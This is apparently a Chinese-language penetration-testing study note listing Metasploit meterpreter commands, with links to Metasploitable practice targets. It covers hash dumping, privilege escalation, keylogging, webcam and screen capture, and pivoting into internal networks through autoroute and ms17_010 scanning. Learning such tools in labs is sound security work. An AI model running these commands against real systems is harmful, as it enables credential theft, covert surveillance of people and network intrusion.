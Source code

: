 ```bash
pwd、ls、cd
getuid		#查看当前权限
getsystem	#获得系统管理员权限（要本地管理员权限运行）
hashdump	#抓哈希密码
sysinfo		#查看系统信息
idletim     #查看目标系统已运行时间
route		#查看目标机完整网络设置
shell		#进入目标机shell，exit退出she
background	#将meterpreter隐藏在后台

upload ./1.txt c:\\1.txt		#上传文件
download c:\1.txt ./			#下载文件
search -f *.txt -d c://			#搜索文件

keyscan_start	#启动键盘记录
keyscan_stop	#停止键盘记录
keyscan_dump	#转储键盘记录的内容
screenshot		#抓取截屏
webcam_list		#摄像头列表
webcam_snap		#摄像头拍照
webcam_stream	#抓取视频

#Kali-Linux下登录远程桌面
sudo rdesktop -f 目标IP

route add IP 子网掩码    #添加路由，先background
```



# 网络穿透

**拿到反向shell之后，获取目标网络信息**

```bash
meterpreter > run get_local_subnets
```

 **使用`autoroute`模块添加路由** 

```bash
meterpreter > run autoroute -s 10.0.0.0/255.0.0.0
meterpreter > run autoroute -p		#列出添加了路由规则的存活session
```

 添加完成后返回上一层，这里一定要保证添加了路由规则的sessions的存活,如果sessions掉了对应的路由规则也就失效了

 添加完成后使用ms17_010的扫描脚本进行目标内网的扫描
# 插件
若要使用get shell提示音，可以使用 sounds plugin.
# MSF靶机

**Metasploitable2：**

下载地址：https://sourceforge.net/projects/metasploitable/ 

官方教程：https://metasploit.help.rapid7.com/docs/metasploitable-2 

**Metasploitable3**：

下载地址：https://github.com/rapid7/metasploitable3/

 视频教程演示：https://www.youtube.com/playlist?list=PLZOToVAK85MpnjpcVtNMwmCxMZRFaY6mT 

